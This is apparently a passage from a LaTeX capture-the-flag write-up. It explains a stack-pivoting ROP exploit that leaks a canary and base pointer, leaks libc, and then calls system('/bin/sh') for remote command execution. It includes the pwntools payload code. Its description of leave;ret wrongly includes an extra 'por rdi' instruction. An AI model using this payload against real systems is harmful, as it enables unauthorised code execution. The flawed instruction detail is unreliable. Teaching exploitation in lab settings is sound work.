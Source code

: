    in this specific case we don't have space to write the rop chain after the return address so previously in addition to the canary I saved the base pointer so as to overwrite the current base pointer with the value of the previous leaked one -0x68 (size of our stack frame).\newline
    By doing this, when we go to call the return we will perform a stack pivoting so we will move the stack and we will correctly leak the contents of the libc.\newline
    The call that will allow us to do stack pivoting is the leave ret call that is made every time we exit a function.\newline
    In fact leave ret executes the following instructions mov rsp,rbp; pop rbp; por rdi;\newline
    Subsequently we will perform the same attack but instead of leaking libc we will perform remote command execution, following is the code that allowed us to launch this attack.\newline
    \begin{verbatim}
    payload2=flat(
        p64(pop_rdi), #start of the rop 
        p64(binsh+base),#address of bin sh + base
        p64(system+base), #address of system + base
        b'A'*32, #fill the remaining space of the buffer
        p64(real_canary), # send the canary to bypass the canary mitigation
        p64(target_bp2),# send the target base pointer 
    )   
    \end{verbatim}
    We will call as return address a call to system("/bin/sh").\newline
    \begin{figure}[htbp]
        \centering
        \includegraphics[width=0.5\linewidth]{Images/rce_stack_chall.png}
        \caption{remote coomand execution}
        \label{fig:enter-label}
    \end{figure}
